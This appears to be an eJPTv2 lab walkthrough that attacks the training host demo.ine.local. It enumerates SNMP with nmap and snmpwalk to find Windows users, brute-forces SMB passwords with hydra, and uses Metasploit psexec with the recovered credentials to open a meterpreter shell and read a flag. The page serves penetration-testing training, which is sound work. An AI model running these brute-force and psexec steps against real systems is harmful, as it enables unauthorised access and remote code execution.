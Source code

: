 # Simple Network Management Protocol (SNMP) - 162

## Q&A
- __1.What is the main purpose of the Simple Network Management Protocol (SNMP)?__
  - __Ans. `To manage and monitor network devices`__

- __Step 1:  let's check if the SNMP port is open or not__
  - __`nmap -sU -p 161 demo.ine.local`__

  > __Note: We will have to double-check nmap results by sending SNMP requests to the host and checking if we get responses from both. Sometimes, when host-based firewalls protect the hosts, they may confuse the nmap scan results.__

- __Step 2: Now, we need to find the SNMP server community string to access the target machine service.__
  - __First, we need to discover the community strings to access the SNMP service.__
  > Note: If you are not familiar with SNMP terms like communities, please, take a look at the course material.
  - __We could use nmap snmp-brute script to find the community string. The script uses the snmpcommunities.lst list for brute-forcing it is located inside /usr/share/nmap/nselib/data/snmpcommunities.lst directory.__
  - __Command__
    - __`nmap -sU -p 161 --script=snmp-brute demo.ine.local`__

![image1](https://github.com/Chittu13/eJPTv2/blob/main/Image/SNMP/image1.jpg)
  - __As we can see, we found three community names: `public`, `private`, and `secret`__

- __Step 3: Now, let's run the snmpwalk tool to find all the information via SNMP.__
  - __Command__
    - __`snmpwalk -v 1 -c public demo.ine.local`__
    - __`-v`: Specifies SNMP version to use__
    - __`-c`: Set the community string__
![image2](https://github.com/Chittu13/eJPTv2/blob/main/Image/SNMP/image2.jpg)

- __We were able to gather a lot of information via SNMP. But, this isn't in a proper readable format. We need to take the help of other tools, i.e., nmap SNMP scripts, for specific information.__

- __Step 3: Let's run all the SNMP nmap scripts to gather all possible information via the SNMP service.__
 - __Command__
	- __`nmap -sU -p 161 --script snmp-* demo.ine.local > snmp_output`__
	- __The above command would run all the nmap SNMP scripts on the target machine and store its output to the__
	- __`snmp_output`__
	- __file.__

  - __This nmap script scan would take some time. Please wait patiently.__

  - __From the list of information retrieved, we found a couple of engaging data, such as running processes, users, services, installed applications, etc.__

  - __However, analyzing the results, one absorbing information we could extract is the list of Windows users:__
  - ![image3](https://github.com/Chittu13/eJPTv2/blob/main/Image/SNMP/image3.jpg)

- __Step 4: Now, let's run a brute-force attack using these windows users on SMB service.__
  - __Remember, port 445 is open, and we can run a brute-force attack using the hydra tool.__
  - __First, let's save two usernames in a file. i.e administrator and admin__
  - ![image4](https://github.com/Chittu13/eJPTv2/blob/main/Image/SNMP/image4.jpg)
  - __Command__
	- __`hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb`__
	- __The hydra switches are described in the help: hydra -help. However, the most relevant parts of the command are explained below:__
	- __`-L users.txt`__
	- __This is the dictionary file containing a list of users.__
	- __`-P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`__

    - __This tells hydra to use a dictionary file containing a list of known passwords. This particular file (unix_passwords.txt) belongs to "Metasploit Framework"__
    - __This is the protocol that should be used by hydra to perform the brute-force attack.__
    - __After a couple of minutes, we should see the following results:__
    - ![image5](https://github.com/Chittu13/eJPTv2/blob/main/Image/SNMP/image5.jpg)
	- __Thus, hydra successfully found a valid password for administrator and admin users.__

- __Step 5: Now, we will run the psexec Metasploit exploit module to gain the meterpreter session using these credentials.__
  - __Let's try to get a shell on this system using the PSExec module of the Metasploit framework.__
  - __PSExec (Microsoft Windows Authenticated User Code Execution)__
  - __Commands__
```
msfconsole -q
use exploit/windows/smb/psexec
show options
```
  - ![image6](https://github.com/Chittu13/eJPTv2/blob/main/Image/SNMP/image6.jpg)

  - __As we can see, we have to set RHOSTS SMBUSER and SMBPASS. Rest all other essential values, i.e. PAYLOAD, and LHOST, is already set.__
  - __Commands__
```
set RHOSTS demo.ine.local
set SMBUSER administrator
set SMBPASS elizabeth
exploit
```
  - > __Note: If you don't gain a meterpreter session for some reason, please re-exploit the target.__
  - ![image7](https://github.com/Chittu13/eJPTv2/blob/main/Image/SNMP/image7.jpg)
  - __We have successfully gained the meterpreter session on the target machine.__

- __Step 6: Now, let's read the flag.__
  - __Commands__
```
shell
cd C:\
dir
type FLAG1.txt
```
  - ![image8](https://github.com/Chittu13/eJPTv2/blob/main/Image/SNMP/image8.jpg)
